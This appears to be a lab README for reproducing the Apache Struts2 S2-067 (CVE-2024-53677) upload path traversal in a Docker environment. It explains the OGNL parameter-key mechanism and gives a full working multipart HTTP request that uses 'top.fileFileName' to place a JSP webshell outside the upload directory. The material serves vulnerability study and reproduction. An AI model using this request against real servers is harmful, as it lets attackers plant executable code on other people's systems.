



# Struts2 S2-067 Upload Path Traversal (CVE-2024-53677)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Struts2 is a popular open-source web application framework for developing Java EE web applications. It uses and extends the Java Servlet API to encourage developers to adopt a model–view–controller (MVC) architecture. The framework provides developers with a rich set of tags and utilities to create enterprise-ready web applications that are easy to maintain and extend.

S2-067 is a variant of the S2-066 vulnerability, which emerged due to an incomplete fix. While S2-066 was caused by case-sensitive comparison issues leading to filename override and directory traversal, S2-067 exploits a different mechanism to achieve the same result.

In Struts2, all parameter keys are evaluated as OGNL expressions during transmission. This feature has historically led to multiple remote code execution vulnerabilities through OGNL expression injection. Although Struts2 has implemented strict parameter key validation to prevent RCE vulnerabilities, the expression evaluation still occurs. S2-067 leverages this expression evaluation mechanism to override the upload filename again, ultimately leading to directory traversal issues.

References:

- <https://cwiki.apache.org/confluence/display/WW/s2-067>
- <https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/>

## Environment Setup

Execute the following command to start a web server written in Struts2 2.5.33:

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080` to access the application, which is a simple file upload page.

## Vulnerability Reproduce

Before reproducing the S2-067 vulnerability, you need to read the [S2-066](../s2-066/README.md) first and understand the principle of the vulnerability.

On this server, you cannot use the same payload as in S2-066, because the case sensitivity issue has been fixed.



Use OGNL expression `top.fileFileName` in the parameter key of filename, then the file will be uploaded to outside the `upload/` directory again:

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 335

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="top.fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

Note the key elements in the exploit:

- Instead of using case sensitivity like in S2-066, we use OGNL expression evaluation in the parameter key
- The parameter key `top.fileFileName` is evaluated as an OGNL expression
- This evaluation allows us to override the filename with the path traversal payload `../shell.jsp`



The JSP file is now uploaded outside the restricted upload directory and can be executed:



You can now access the webshell at `http://your-ip:8080/shell.jsp`.
